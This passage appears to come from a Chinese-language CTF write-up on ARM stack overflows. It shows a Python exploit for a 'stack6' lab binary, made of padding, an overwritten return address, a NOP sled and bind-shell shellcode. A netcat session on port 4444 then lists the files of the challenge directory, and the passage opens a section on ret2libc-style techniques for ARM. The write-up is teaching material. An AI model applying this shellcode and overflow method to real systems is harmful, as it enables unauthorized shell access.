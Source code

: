 利用一个exp，功能是：先填充到返回地址前，再利用返回地址后的任意一个栈地址（nop指令区间就行），将返回地址覆盖，在用点nop来防止环境变量的改变影响栈偏移，最后加上shellcode。

```
import struct
padding = "11111111111111111111111111111111111111111111111111111111111111111111111111111111"
return_addr = struct.pack("I", 0xbefff0d0)

payload1 = "x01x30x8fxe2x13xffx2fxe1x01x21x48x1cx92x1axc8x27x51x37x01xdfx04x1cx14xa1x4ax70x8ax80xc0x46x8ax71xcax71x10x22x01x37x01xdfx60x1cx01x38x02x21x02x37x01xdfx60x1cx01x38x49x40x52x40x01x37x01xdfx04x1cx60x1cx01x38x49x1ax3fx27x01xdfxc0x46x60x1cx01x38x01x21x01xdfx60x1cx01x38x02x21x01xdfx04xa0x49x40x52x40xc2x71x0bx27x01xdfx02xffx11x5cx01x01x01x01x2fx62x69x6ex2fx73x68x58"

print padding + return_addr + "x90"*100 + payload1
```

执行结果

`受控端`

```
pi@raspberrypi:~/Desktop/ARM-challenges $ ./stack6 &lt;exp
input path please: got path 1111111111111111111111111111111111111111111111111111111111111111x
```

`控制端`

```
pi@raspberrypi:~/Desktop/ARM-challenges $ nc -vv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
ls
README.md
ROPgadget
core
e4
exp
poc.py
stack0
stack1
stack2
stack3
stack4
stack5
stack6
exit
```



## ret2zp(return to Zero Prevention)

`我们尝试使用：/bin/sh,需要用到system函数`（并不一定可以实现，因为我们需要得到system[@plt](https://github.com/plt)的地址）

当我使用想使用ret2libc的时候发现，它不是使用栈空间来传递参数的，而是使用寄存器来传递参数的，也就是x86架构的ret2libc不适用arm架构，怎么办呢？我在[exploitation-on-arm](https://www.exploit-db.com/docs/english/14548-exploitation-on-arm---presentation.pdf)这里找到了答案，在[另外一片文章](https://doc.lagout.org/security/XXXX_ARM_exploitation.pdf)找到一些实例。下面我们用到了一个工具帮助我们快速查找特定指令

ROPgadgets工具安装过程(如果执行中出错，按照github上给的方法，注释特定出错的地方)
